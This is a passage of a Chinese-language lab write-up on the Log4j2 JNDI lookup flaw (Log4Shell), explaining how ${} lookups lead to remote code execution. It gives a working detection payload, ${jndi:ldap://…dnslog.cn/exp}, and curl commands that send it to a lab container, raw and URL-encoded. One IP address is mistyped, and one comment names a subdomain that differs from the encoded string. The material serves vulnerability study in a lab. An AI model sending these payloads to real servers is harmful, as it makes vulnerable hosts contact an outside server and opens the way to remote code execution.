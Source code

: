 而Log4j2在处理日志消息时它会扫描消息中的` ${} `语法来识别 `Lookups` 标记，根据 `Lookups` 标记的类型，调用相应的解析器来获取实际值
```bash
#Lookups 是一种功能，允许在日志消息中动态地插入特定类型的数据。它们通过`${}`语法嵌入在日志消息中，可以在运行时被替换为相应的值或结果。
```
这里就用到`JNDI lookups`

Log4j2在记录日志时会解析`${}`中的内容。在这种情况下，它会尝试通过`JNDI`查找ldap后的内容

如果查找内容是攻击者控制的LDAP服务器，它可以响应一个包含恶意代码的对象。

应用程序加载并执行从恶意服务器返回的代码，从而导致远程代码执行（RCE）

而`logger.error/info`中所包含的`payload`可能就是攻击者控制的服务器地址

所以才产生了漏洞

#### 漏洞可利用性检测

1. 访问 [dnslog.cn](http://dnslog.cn/) 获取二级域名 `v77yc9.dnslog.cn`

![](../img/Dracuspicy/10.png)

- 模板变量代码`${jndi:ldap://v77yc9.dnslog.cn/exp}`

2. 编码并发送 url

根据靶场容器ip和获取的二级域名，编码 url：

```bash
curl "http://192.168.38.129:50239/hello?payload=${jndi:ldap://v77yc9.dnslog.cn/exp}"

#编码 `${jndi:ldap://xco6xt.dnslog.cn/lihan3238}` 
# `%24%7Bjndi%3Aldap%3A%2F%2Fv77yc9.dnslog.cn%2Fexp%7D`：

curl "http://1192.168.38.129:50239/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fv77yc9.dnslog.cn%2Fexp%7D"
```
